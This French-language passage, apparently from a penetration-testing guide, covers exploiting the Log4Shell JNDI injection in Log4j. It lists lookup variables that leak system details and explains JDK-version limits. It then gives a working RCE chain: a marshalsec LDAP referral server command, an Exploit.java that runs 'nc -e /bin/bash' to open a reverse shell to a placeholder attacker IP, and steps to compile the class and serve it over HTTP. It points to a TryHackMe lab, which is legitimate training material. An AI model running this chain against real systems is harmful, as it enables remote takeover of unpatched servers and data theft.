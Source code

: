 ```
${sys:java.vm.vendor}
${sys:java.vm.version}
${sys:line.separator}
${sys:os.arch}
${sys:os.name}
${sys:os.version}
${sys:path.separator}
${sys:user.dir}
${sys:user.home}
${sys:user.name}

Any other env variable name that could store sensitive information
```
### Informations sur RCE

> [!NOTE]
> Les hôtes fonctionnant sur des versions JDK supérieures à 6u141, 7u131 ou 8u121 sont protégés contre le vecteur d'attaque de chargement de classe LDAP. Cela est dû à la désactivation par défaut de `com.sun.jndi.ldap.object.trustURLCodebase`, qui empêche JNDI de charger une base de code distante via LDAP. Cependant, il est crucial de noter que ces versions ne sont **pas protégées contre le vecteur d'attaque de désérialisation**.
>
> Pour les attaquants cherchant à exploiter ces versions JDK supérieures, il est nécessaire de tirer parti d'un **gadget de confiance** au sein de l'application Java. Des outils comme ysoserial ou JNDIExploit sont souvent utilisés à cet effet. En revanche, exploiter des versions JDK inférieures est relativement plus facile car ces versions peuvent être manipulées pour charger et exécuter des classes arbitraires.
>
> Pour **plus d'informations** (_comme les limitations sur les vecteurs RMI et CORBA_) **consultez la section précédente sur la Référence de Nom JNDI** ou [https://jfrog.com/blog/log4shell-0-day-vulnerability-all-you-need-to-know/](https://jfrog.com/blog/log4shell-0-day-vulnerability-all-you-need-to-know/)

### RCE - Marshalsec avec payload personnalisé

Vous pouvez tester cela dans la **boîte THM :** [**https://tryhackme.com/room/solar**](https://tryhackme.com/room/solar)

Utilisez l'outil [**marshalsec**](https://github.com/mbechler/marshalsec) (version jar disponible [**ici**](https://github.com/RandomRobbieBF/marshalsec-jar)). Cette approche établit un serveur de référence LDAP pour rediriger les connexions vers un serveur HTTP secondaire où l'exploit sera hébergé :
```bash
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://<your_ip_http_server>:8000/#Exploit"
```
Pour inciter la cible à charger un code de reverse shell, créez un fichier Java nommé `Exploit.java` avec le contenu ci-dessous :
```java
public class Exploit {
static {
try {
java.lang.Runtime.getRuntime().exec("nc -e /bin/bash YOUR.ATTACKER.IP.ADDRESS 9999");
} catch (Exception e) {
e.printStackTrace();
}
}
}
```
Compilez le fichier Java en un fichier de classe en utilisant : `javac Exploit.java -source 8 -target 8`. Ensuite, initiez un **serveur HTTP** dans le répertoire contenant le fichier de classe avec : `python3 -m http.server`. Assurez-vous que le **serveur LDAP marshalsec** référence ce serveur HTTP.
